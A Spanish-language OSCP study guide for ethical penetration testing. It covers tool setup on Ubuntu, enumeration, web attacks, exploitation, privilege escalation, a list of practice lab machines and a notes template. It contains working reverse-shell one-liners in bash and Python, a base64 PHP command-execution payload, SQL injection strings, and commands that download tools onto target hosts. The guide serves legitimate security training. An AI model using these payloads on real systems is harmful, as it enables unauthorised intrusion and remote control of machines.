

# Plan de Estudio y Guía de Laboratorios (OSCP / Pentesting Ético)

Este documento es una guía práctica de referencia para preparar la certificación **OSCP (Offensive Security Certified Professional)** o una formación sólida en seguridad ofensiva desde cero utilizando una estación de trabajo basada en **Ubuntu / Debian** (prescindiendo de Kali Linux si se desea), avanzando paso a paso ("subiendo los voltios").

---

## Índice
1. [Aprovisionamiento Completo en Ubuntu / Debian](#1-aprovisionamiento-completo-en-ubuntu--debian)
2. [Plan de Estudio por Niveles: Subiendo los Voltios](#2-plan-de-estudio-por-niveles-subiendo-los-voltios)
   - [Nivel 1: Redes y Fundamentos de Bajo Nivel](#nivel-1-redes-y-fundamentos-de-bajo-nivel-voltaje-bajo-)
   - [Nivel 2: Reconocimiento y Enumeración Sistemática](#nivel-2-reconocimiento-y-enumeración-sistemática-voltaje-medio-)
   - [Nivel 3: Vectores Web y Fuzzing Dirigido](#nivel-3-vectores-web-y-fuzzing-dirigido-voltaje-alto-)
   - [Nivel 4: Explotación, Reverse Shells y Estabilización TTY](#nivel-4-explotación-reverse-shells-y-estabilización-tty-voltaje-muy-alto-)
   - [Nivel 5: Escalada de Privilegios (Linux & Windows)](#nivel-5-escalada-de-privilegios-linux--windows-voltaje-máximo-)
3. [Ruta de Laboratorios Prácticos (Poco a Poco)](#3-ruta-de-laboratorios-prácticos-poco-a-poco)
   - [Fase Inicial: Máquinas Guiadas de Fundamentos](#fase-inicial-máquinas-guiadas-de-fundamentos)
   - [Fase Intermedia: Máquinas Estilo OSCP Clásico](#fase-intermedia-máquinas-estilo-oscp-clásico)
   - [Fase Avanzada: Cadenas Complejas y Active Directory](#fase-avanzada-cadenas-complejas-y-active-directory)
4. [Plantilla de Notas para Cada Laboratorio](#4-plantilla-de-notas-para-cada-laboratorio)

---

## 1. Aprovisionamiento Completo en Ubuntu / Debian

Para transformar una instalación estándar de Ubuntu (20.04 / 22.04 / 24.04 LTS) o Debian en un entorno de pruebas sin la sobrecarga de Kali:

### Paso 1: Actualización e Instalación de Paquetes Base (APT)
```bash
sudo apt update && sudo apt upgrade -y

# Herramientas de red, compilación, reconocimiento y fuerza bruta
sudo apt install -y \
  build-essential git curl wget netcat-traditional socat tcpdump tshark \
  nmap nikto gobuster hydra john seclists smbclient nfs-common \
  dnsutils whois proxychains4 python3 python3-pip python3-venv \
  libssl-dev libffi-dev libldap2-dev libsasl2-dev rlwrap unzip p7zip-full
```

### Paso 2: Configuración de Alternativas y Permisos
En Ubuntu, `nc` apunta por defecto a `openbsd-netcat`, el cual carece del flag `-e` para ejecución interactiva. Lo configuramos a la variante tradicional:
```bash
sudo update-alternatives --set nc /bin/nc.traditional
```

### Paso 3: Suite de Python e Impacket
La suite Impacket es el estándar indiscutible para interacción y explotación de protocolos Windows (SMB, WMI, MSRPC, Kerberos):
```bash
# Instalación global de herramientas Impacket y utilidades
pip install impacket colorama requests --break-system-packages
```

### Paso 4: Configuración de Diccionarios (Wordlists)
SecLists proporciona los mejores diccionarios de la industria:
```bash
sudo mkdir -p /usr/share/wordlists
sudo ln -s /usr/share/seclists /usr/share/wordlists/SecLists 2>/dev/null || true

# Descomprimir rockyou si está comprimido en formato .gz
if [ -f /usr/share/wordlists/rockyou.txt.gz ]; then
    sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
fi
```

### Paso 5: Directorio de Herramientas Auxiliares (`/opt/tools`)
Crea un directorio de trabajo para herramientas independientes:
```bash
sudo mkdir -p /opt/tools && sudo chown -R $USER:$USER /opt/tools
cd /opt/tools

# Scripts de enumeración local esenciales (descarga directa)
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh -O linpeas.sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -O winPEASany.exe
chmod +x linpeas.sh
```

---

## 2. Plan de Estudio por Niveles: Subiendo los Voltios



---

### Nivel 1: Redes y Fundamentos de Bajo Nivel (Voltaje Bajo 🟡)
**Objetivo:** Desarrollar intuición sobre cómo viajan los paquetes, puertos, protocolos y automatización básica en Bash.

1. **El Handshake TCP de 3 vías (SYN, SYN-ACK, ACK):**
   - Cómo difiere un escaneo abierto (`SYN -> SYN-ACK -> RST`), cerrado (`SYN -> RST`) y filtrado (`SYN -> Sin respuesta`).
2. **Netcat (`nc`) tradicional como navaja suiza:**
   - Crear un listener: `nc -lvnp 4444`
   - Conectarse a un puerto remoto: `nc -nv <IP> <PUERTO>`
   - Transferir un archivo sin cifrar:
     - Receptor: `nc -lvnp 9001 > recibido.txt`
     - Emisor: `nc -nv <IP_RECEPTOR> 9001 < enviar.txt`
3. **Análisis de tráfico con `tcpdump`:**
   - Inspeccionar cabeceras HTTP en texto claro:
     ```bash
     sudo tcpdump -i any -A -nn -s 0 'tcp port 80'
     ```
   - Filtrar peticiones ICMP (Ping):
     ```bash
     sudo tcpdump -i any icmp -nn
     ```
4. **One-Liners indispensables en Bash:**
   - Filtrar puertos abiertos de una salida Nmap en formato Grepable (`.gnmap`):
     ```bash
     grep -oP '\d{1,5}/open' scan.gnmap | cut -d '/' -f 1 | paste -sd ',' -
     ```

---

### Nivel 2: Reconocimiento y Enumeración Sistemática (Voltaje Medio 🟠)
**Objetivo:** Evitar saltarse vectores. Los fallos en auditorías y en el OSCP provienen en un 80% de una enumeración deficiente.

1. **Metodología de Escaneo en 2 Fases con Nmap:**
   - **Fase A (Velocidad):** Escaneo de todos los 65535 puertos TCP:
     ```bash
     nmap -n -Pn -sT -p- --min-rate 1000 -T4 <IP> -oA nmap_all_ports
     ```
   - **Fase B (Profundidad):** Detección de versión y scripts seguros sobre puertos descubiertos:
     ```bash
     nmap -n -Pn -sC -sV -p <PUERTOS_DETECTADOS> <IP> -oA nmap_scripts
     ```
2. **Enumeración de Servicios Canónicos:**
   - **SMB (139/445):**
     - Listar recursos compartidos anónimos: `smbclient -L //<IP>/ -N`
     - Conectar a un recurso: `smbclient //<IP>/recurso -N`
     - Inspección global con `enum4linux -a <IP>`
   - **NFS (111/2049):**
     - Ver exports disponibles: `showmount -e <IP>`
     - Montaje local: `sudo mount -t nfs <IP>:/compartido /mnt -o nolock`
   - **SNMP (161/UDP):**
     - Brute-force a comunidades: `onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt <IP>`
     - Recorrido del árbol: `snmpwalk -c public -v 2c <IP>` o `snmp-check <IP> -c public`
   - **DNS (53):**
     - Transferencia de zona: `dig axfr @<IP> <DOMINIO>`

---

### Nivel 3: Vectores Web y Fuzzing Dirigido (Voltaje Alto 🔴)
**Objetivo:** Identificar fallos web lógicos y de configuración sin depender de escáneres masivos que saturan la red.

1. **Fuzzing de Directorios y Archivos:**
   - Gobuster con extensiones dirigidas al stack tecnológico:
     ```bash
     gobuster dir -u http://<IP>/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,bak,old -t 25 -o gobuster.txt
     ```
2. **Inyección de Comandos (Command Injection):**
   - Identificar parámetros que ejecutan utilidades del sistema (`ping`, `nslookup`, `traceroute`).
   - Caracteres delimitadores: `;`, `&&`, `|`, `$(...)`, `` `...` ``.
3. **Inclusión de Archivos (LFI / RFI / Directory Traversal):**
   - Lectura de archivos locales: `../../../../etc/passwd` o `..\..\windows\win.ini`.
   - Conversión de LFI a ejecución de comandos (RCE):
     - Mediante filtros PHP: `php://filter/convert.base64-encode/resource=index.php`
     - Vía wrappers de datos: `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+`
     - Log Poisoning (Apache `access.log` o SSH `auth.log`).
4. **Inyección SQL Manual (SQLi):**
   - Detección de columnas con `ORDER BY 1, 2, 3...`
   - Extracción de versión y esquema con `UNION SELECT 1, @@version, database() -- -`
   - Inyección a ciegas (*blind*) con retardos temporales: `' AND SLEEP(5) -- -` (referencia: [SQLiWithWFUZZ.txt](file:///c:/Users/Diego%20Romero/Documents/oscpRepo/CheetSheets/Database/SQLiWithWFUZZ.txt)).

---

### Nivel 4: Explotación, Reverse Shells y Estabilización TTY (Voltaje Muy Alto ⚡)
**Objetivo:** Acceso interactivo persistente y control total del entorno de terminal.

1. **Generación de Payloads de Reverse Shell:**
   - **Bash:** `bash -i >& /dev/tcp/<MI_IP>/4444 0>&1`
   - **Python 3:**
     ```python
     python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<MI_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
     ```
2. **Estabilización a Full TTY (Evitar caídas con Ctrl+C):**
   Una vez dentro de la shell inversa en Netcat:
   ```bash
   # 1. En la víctima:
   python3 -c 'import pty; pty.spawn("/bin/bash")'

   # 2. Pulsar Ctrl + Z (se suspende el proceso localmente)

   # 3. En tu máquina atacante (Ubuntu):
   stty raw -echo; fg

   # 4. En la víctima recuperada:
   reset
   export TERM=xterm
   export SHELL=/bin/bash
   stty rows 38 columns 136  # Consulta tus dimensiones con: stty size
   ```
3. **Servidor y Transferencia de Archivos:**
   - Servidor local en atacante: `python3 -m http.server 80`
   - Descarga en Linux objetivo: `wget http://<MI_IP>/linpeas.sh -O /tmp/linpeas.sh`
   - Descarga en Windows objetivo:
     ```powershell
     certutil -urlcache -f http://<MI_IP>/winPEASany.exe winPEAS.exe
     # o bien:
     Invoke-WebRequest -Uri http://<MI_IP>/tool.exe -OutFile tool.exe
     ```

---

### Nivel 5: Escalada de Privilegios (Linux & Windows) (Voltaje Máximo 🔥)
**Objetivo:** Elevar privilegios desde un usuario no privilegiado (`www-data`, `localuser`) hasta el control total del sistema operativo (`root` o `NT AUTHORITY\SYSTEM`).

1. **Linux Privilege Escalation:**
   - **Sudo sin contraseña:** `sudo -l` (revisar binarios en [GTFOBins](https://gtfobins.github.io)).
   - **Binarios con bit SUID activo:**
     ```bash
     find / -perm -u=s -type f 2>/dev/null
     ```
   - **Tareas programadas (Cron Jobs):** Comprobar `/etc/crontab`, `/etc/cron.*` o scripts periódicos modificables por nuestro usuario.
   - **Inspección de servicios internos:** Puertos a la escucha en `127.0.0.1` (`ss -tulpn`).
2. **Windows Privilege Escalation:**
   - **Privilegios de Token:** Comprobar con `whoami /priv`. Si figura `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`, evaluar herramientas de suplantación (PrintSpoofer, GodPotato).
   - **Servicios con rutas sin entrecomillar (Unquoted Service Paths):**
     ```cmd
     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
     ```
   - **Permisos débiles en binarios de servicio:** Consulta con `icacls "C:\Ruta\Al\Servicio.exe"` (referencia: [iCacls_Service_Check.bat](file:///c:/Users/Diego%20Romero/Documents/oscpRepo/Priv%20Esc%20Checks/Windows/iCacls_Service_Check.bat)).
   - **Credenciales cacheadas y claves en registro:**
     ```cmd
     cmdkey /list
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     ```

---

## 3. Ruta de Laboratorios Prácticos (Poco a Poco)

Se recomienda utilizar plataformas con laboratorios autónomos. Las mejores opciones son **OffSec Proving Grounds (Play / Practice)**, **VulnHub** (máquinas locales gratuitas) y **Hack The Box (HTB)**.

### Fase Inicial: Máquinas Guiadas de Fundamentos
*Objetivo: Afianzar el flujo escaneo -> identificación del vector -> shell inicial -> privesc básico.*

| Máquina | Plataforma | SO | Vectores Principales |
| :--- | :--- | :--- | :--- |
| **Kioptrix Level 1** | VulnHub | Linux | Enumeración de Samba y Apache antiguo. Ideal para entender escaneo básico. |
| **Lame** | Hack The Box | Linux | Vulnerabilidad clásica en Samba (`usermap script`) y VSFTPD. |
| **Blue** | Hack The Box | Windows | Comprensión de EternalBlue (MS17-010) y arquitectura SMBv1. |
| **Shocker** | Hack The Box | Linux | Comprensión práctica de Shellshock en scripts CGI `/cgi-bin/`. |
| **Nibbles** | Hack The Box | Linux | Subida de archivos maliciosos en CMS y abuso de script sudo con permisos de escritura. |

---

### Fase Intermedia: Máquinas Estilo OSCP Clásico
*Objetivo: Resolver sin guías, manejando múltiples servicios e identificando pistas falsas (rabbit holes).*

| Máquina | Plataforma | SO | Vectores Principales |
| :--- | :--- | :--- | :--- |
| **Legacy** | Hack The Box | Windows | Vulnerabilidades SMB clásicas (MS08-067 / MS17-010). |
| **Devel** | Hack The Box | Windows | Acceso anónimo en FTP + servidor web IIS (subida de webshell ASPX) + Potato Privesc. |
| **Bashed** | Hack The Box | Linux | Webshell PHP preinstalada, manipulación de tareas cron y sudoers. |
| **Cronos** | Hack The Box | Linux | Transferencia de zona DNS (`axfr`), SQLi para bypass de login y cron jobs. |
| **Optimum** | Hack The Box | Windows | HttpFileServer (HFS) vulnerable y exploits de kernel / token privesc. |

---

### Fase Avanzada: Cadenas Complejas y Active Directory
*Objetivo: Cadenas completas de explotación y conceptos de Directorio Activo (requeridos en el OSCP moderno).*

| Máquina / Entorno | Plataforma | Enfoque |
| :--- | :--- | :--- |
| **Forest** | Hack The Box | Windows / Active Directory: AS-REP Roasting, permisos DACL y DCSync. |
| **Sauna** | Hack The Box | Windows / Active Directory: Enumeración de usuarios, Kerberoasting y BloodHound. |
| **Active** | Hack The Box | Windows / Active Directory: Reconocimiento SMB, Group Policy Preferences (GPP cpassword) y Kerberoast. |

---

## 4. Plantilla de Notas para Cada Laboratorio

Guarda un archivo de notas Markdown por cada máquina que resuelvas (por ejemplo, en `CherryTrees/` o un bloc local). La estructura recomendada por OffSec es:

```markdown
# Informe de Máquina: [NOMBRE_DE_MÁQUINA] - [DIRECCIÓN_IP]

## 1. Resumen Ejecutivo
- **Sistema Operativo:** Linux / Windows
- **Nivel de Dificultad:** Fácil / Media / Difícil
- **Vector de Acceso Inicial:** [ej. Vulnerabilidad de subida de archivos en WordPress]
- **Vector de Escalada:** [ej. Binario SUID `/usr/bin/find`]

## 2. Reconocimiento y Escaneo
### Puertos Abiertos (Nmap)
```text
[Pegar salida del escaneo rápido y detallado de Nmap]
```

## 3. Enumeración de Servicios
- **Puerto 80 (HTTP):**
  - Tecnologías detectadas: [Apache 2.4, PHP 7.4...]
  - Resultados Gobuster: [Rutas /admin, /uploads...]
- **Puerto 445 (SMB):**
  - Recursos compartidos encontrados: [/public, /backups...]

## 4. Explotación (Acceso Inicial)
- **Vulnerabilidad identificada:** [Explicación del fallo]
- **Comando o Payload utilizado:**
  ```bash
  [Comando exacto de explotación]
  ```
- **Evidencia de acceso (Proof of Concept):**
  ```bash
  whoami && id # o whoami /all
  ip a # o ipconfig
  cat /home/user/local.txt # o type C:\Users\user\desktop\local.txt
  ```

## 5. Escalada de Privilegios
- **Método de Enumeración Interna:** [Salida de LinPEAS / Comprobaciones manuales]
- **Fallo de configuración detectado:** [Permiso sudo, token, cron job, etc.]
- **Comandos de Elevación:**
  ```bash
  [Comandos para obtener root/SYSTEM]
  ```
- **Evidencia Final:**
  ```bash
  whoami
  cat /root/proof.txt # o type C:\Users\Administrator\desktop\proof.txt
  ```
```
